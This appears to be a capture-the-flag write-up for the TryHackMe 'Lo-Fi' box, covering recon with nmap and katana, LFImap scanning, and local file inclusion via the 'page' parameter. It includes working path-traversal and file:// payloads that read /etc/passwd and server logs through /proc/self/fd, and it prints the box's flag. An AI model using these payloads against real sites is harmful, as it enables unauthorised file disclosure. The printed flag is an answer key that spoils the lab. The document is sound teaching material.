



<br>
<br>

The Lo-Fi box on TryHackMe is marked as "Easy" and is vulnerable to LFI, which we used to extract `flag.txt`. It’s also vulnerable to LFI to RCE via log poisoning, but we couldn’t actually get RCE to work the exploit at this point. So, we just stopped there since we already got the flag.

<br>

## Reconnaissance
### Front-End Recon




### Adding Hostfile
```bash
~ > echo "10.10.27.159 lofi.thm" | sudo tee -a /etc/hosts
```
## Mapping and Discovery 
```bash
> nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') $IP -oN tcp.txt

Nmap scan report for lofi.thm (10.10.27.159)
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:    
|   3072 18:45:52:63:12:d1:3d:4c:2d:aa:a4:5e:60:62:93:6b (RSA)
|   256 db:2d:d3:2d:73:2e:5f:42:88:27:44:10:c4:53:7b:be (ECDSA)
|_  256 7c:1c:98:8f:cb:a4:11:67:2a:b7:1b:82:26:e6:36:00 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Inspecting HTTP Response Headers and Sitemaps
```bash
~ > curl -s http://lofi.thm | grep ".php"
                                    <li><a href="/?page=relax.php">Relax</a></li>
                                    <li><a href="/?page=sleep.php">Sleep</a></li>
									<li><a href="/?page=chill.php">Chill</a></li>    
									<li><a href="/?page=coffee.php">Coffee</a></li>
									<li><a href="/?page=vibe.php">Vibe</a></li>
									<li><a href="/?page=game.php">Game</a></li>


```


### Debugging Page Content
```bash
~ > curl -s http://lofi.thm -v | head -0
* Host lofi.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.27.159
*   Trying 10.10.27.159:80...
* Connected to lofi.thm (10.10.27.159) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: lofi.thm
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 31 Jan 2025 03:42:07 GMT
< Server: Apache/2.2.22 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 4162
< Content-Type: text/html
< 
{ [1118 bytes data]
* Failure writing output to destination, passed 3044 returned 2978
* closing connection #0
```
### Technology Stack Identification

### Directory and File Listings
```bash
> ./katana -u http://lofi.thm

   __        __                
  / /_____ _/ /____ ____  ___ _
 /  '_/ _  / __/ _  / _ \/ _  /
/_/\_\\_,_/\__/\_,_/_//_/\_,_/							 

		projectdiscovery.io

[INF] Current katana version v1.1.2 (latest)
[INF] Started standard crawling for => http://lofi.thm
http://lofi.thm
http://lofi.thm/?page=vibe.php
http://lofi.thm/?page=game.php
http://lofi.thm/?page=relax.php
http://lofi.thm/?page=coffee.php
http://lofi.thm/?page=chill.php
http://lofi.thm/
http://lofi.thm/?page=sleep.php
```

 
## Vulnerability Identification
```bash
~ > python3 lfimap.py -U http://lofi.thm/\?page\=testme -a -v
[i] Session information is not provided. LFImap might have troubles finding vulnerabilities if testing endpoint requires authentication.

[i] Testing GET 'page' parameter...

[i] Testing misc issues using heuristics...
[i] Testing for XSS...
[+] XSS -> 'http://lofi.thm/?page=oqz%3A77p%3Ee%3Cfu%3B1%22%27gi' -> full reflection in response
    Content-Type: text/html
[i] Testing for error-based info leak...
[i] Testing for open redirect...
[i] Testing with filter wrapper...
[i] Testing with input wrapper...
[i] Testing with data wrapper...
[i] Testing with expect wrapper...
[i] Testing with file wrapper...
[+] LFI -> 'http://lofi.thm/?page=file%3A%2F%2F%2Fetc%2Fpasswd'
[i] Testing remote file inclusion...
[i] Trying to include internet-hosted file...
[i] Testing path truncation using '/home/kali/tools/vuln-cve/LFImap/lfimap/src/wordlists/short.txt' wordlist...
[+] LFI -> 'http://lofi.thm/?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00'
[i] Testing results-based OS command injection...

----------------------------------------
LFImap finished with execution.
Parameters tested: 1
Requests sent: 38
Vulnerabilities found: 3
```

## Exploitation
### LFI 
```bash

~ > curl -s http://lofi.thm/\?page\=file%3A%2F%2F%2Fetc%2Fpasswd | grep "sh$"
						root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

## Relected XSS

## LFI to RCE
> file descriptors
```bash
$ for num in $(seq 1 50); do curl -s /dev/null http://lofi.thm/?page=../../../../proc/self/fd/$num; done
```
```bash
$ curl -s http://lofi.thm/?page=../../../../proc/self/fd/6 | grep -w '200' | head -50 | sort 
						172.17.0.2:80 10.10.71.42 - - [02/Mar/2022:19:55:31 +0000] "GET / HTTP/1.1" 200 1607 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:44 +0000] "GET / HTTP/1.0" 200 4339 "-" "-"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:44 +0000] "GET / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:44 +0000] "PROPFIND / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "GET / HTTP/1.0" 200 4339 "-" "-"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "GET / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "POST / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "PROPFIND / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "PROPFIND / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:45 +0000] "UMXS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:46 +0000] "GET / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:46 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:47 +0000] "HEAD / HTTP/1.1" 200 155 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:47 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:47 +0000] "POST / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:48 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:48 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:48 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:49 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:50 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:50 +0000] "OPTIONS / HTTP/1.1" 200 4339 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:53 +0000] "GET / HTTP/1.0" 200 4339 "-" "-"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:10:54 +0000] "GET / HTTP/1.1" 200 4320 "-" "-"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:14:02 +0000] "GET / HTTP/1.1" 200 1607 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:16:21 +0000] "GET / HTTP/1.1" 200 1607 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:16:37 +0000] "GET / HTTP/1.1" 200 1607 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:17:20 +0000] "GET / HTTP/1.1" 200 4320 "-" "curl/8.11.1"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:18:00 +0000] "GET / HTTP/1.1" 200 1607 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:22:59 +0000] "GET /?page=relax.php HTTP/1.1" 200 1607 "http://lofi.thm/" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:23:02 +0000] "GET /?page=sleep.php HTTP/1.1" 200 1607 "http://lofi.thm/?page=relax.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:23:03 +0000] "GET /?page=coffee.php HTTP/1.1" 200 1610 "http://lofi.thm/?page=relax.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:23:05 +0000] "GET /?page=game.php HTTP/1.1" 200 1607 "http://lofi.thm/?page=coffee.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:23:07 +0000] "GET /?page=relax.php HTTP/1.1" 200 1606 "http://lofi.thm/?page=game.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:26:41 +0000] "GET / HTTP/1.1" 200 4320 "-" "feroxbuster/2.11.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:26:42 +0000] "GET / HTTP/1.1" 200 4320 "-" "feroxbuster/2.11.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:26:43 +0000] "GET / HTTP/1.1" 200 4320 "-" "feroxbuster/2.11.0"
172.17.0.2:80 10.2.9.211 - - [31/Jan/2025:03:26:47 +0000] "GET /200 HTTP/1.1" 404 459 "-" "feroxbuster/2.11.0"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:26:49 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:26:50 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:26:51 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:26:52 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:26:53 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:26:54 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:27:09 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:27:10 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
172.17.0.2:80 127.0.0.1 - - [31/Jan/2025:03:27:11 +0000] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.2.22 (Ubuntu) (internal dummy connection)"
```
### Flags

```bash
~ > curl -s http://lofi.thm/\?page\=../../../../flag.txt | grep flag
						flag{e4478e0eab69bd642b8238765dcb7d18}                	</div>
```

 
